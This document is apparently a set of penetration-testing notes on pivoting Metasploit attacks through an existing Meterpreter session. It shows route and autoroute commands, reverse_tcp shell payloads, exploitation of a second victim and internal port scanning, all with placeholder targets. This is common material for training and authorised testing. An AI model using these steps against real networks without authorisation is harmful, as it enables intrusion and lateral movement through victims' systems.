


Pivoting an Exploit trhough an existing meterpreter session
Requirements:• Meterpreter session between attacker and pivot host
Pivoting an Exploit using Metasploit route command and a Meterpreter session
Metasploit
route command, for pivoting attacks through already-established Meterpreter sessions.
When we have already exploited the Victim1 machine and we want to run an exploit for the Victim2 machine, we'll be pivoting our attack through Victim1
Metasploit route command
(OPTION 1)
network command of metasploit
msf > use [exploit1]
msf > set RHOST [victim1]
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > exploit
meterpreter > (CTRL-Z to background session… will display meterpreter sid)
msf > route add [victim2_network] [netmask] [sid]
msf > route print #to check if the route is been added; route -h give use other options
msf > use [exploit2]
msf > set RHOST [victim2]
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > exploit
route add [victim2_network] [netmask] [sid] command ◇
[victim2_network] → is the network where is victim2
◇
netmask → is a 32-bit "mask" used to define the subnet in the network (example: 255.255.225.0)
◇
sid → meterpreter session running (in this case the sid is of the victim1 machine)
With this command we tell metasploit to route all the traffic intended to the network
victim2_network/
netmask, through the meterpreter session
sid.
In other words, all the traffic to
victim2_network/
netmask will be tunneled through Victim 1
Metasploit autoroute module
(OPTION 2)
use autoroute script from the meterpreter session
• Pivot the entire traffic for a network
meterpreter> run autoroute -s 10.32.121.0/24
meterpreter> background
msf> set RHOSTS 10.32.121.23 #all the traffic will be routed through autoroute
msf> > use auxiliary/scanner/portscan/tcp
• Pivot an exploit
msf > use [exploit1]
msf > set RHOST [victim1]
msf > set LHOST [AttackerIP]
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > exploit
meterpreter> background
msf > use post/multi/manage/autoroute
msf > info
msf > set CMD add #If we use the default CMD option: autoadd , our other options will be ignored;
#autoadd search the routing table in the victim1 machine and add the routes found
#in the Metasploit's routing table
msf > set SUBNET [victim2_network]
msf > set NETMASK /24 #we can use both the notation "255.255.255.0" or "/24"
msf > set SESSION [sid] #meterpreter session that we got with the exploit 1
msf > run
meterpreter > autoroute -p #to check if the route is been added
meterpreter > background #or CTRL-Z to background session… will display meterpreter sid
msf > route print #to check if the route is been added
msf > use [exploit2]
msf > set RHOST [victim2]
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > exploit
Now we can use modules to scan ports of the victim2 machine:
WARNING:We do not have to confuse:
• Metasploit (msf) route command: used to direct all traffic for a given target subnet from the attacker's Metasploit machine through a given Meterpreter session on a compromised victim machine to another potential victim
• Meterpreter(meterpreter) route command: used to manage the routing tables on a target box that has been compromised using the Meterpreter payload
Bibliography:
{kind=link}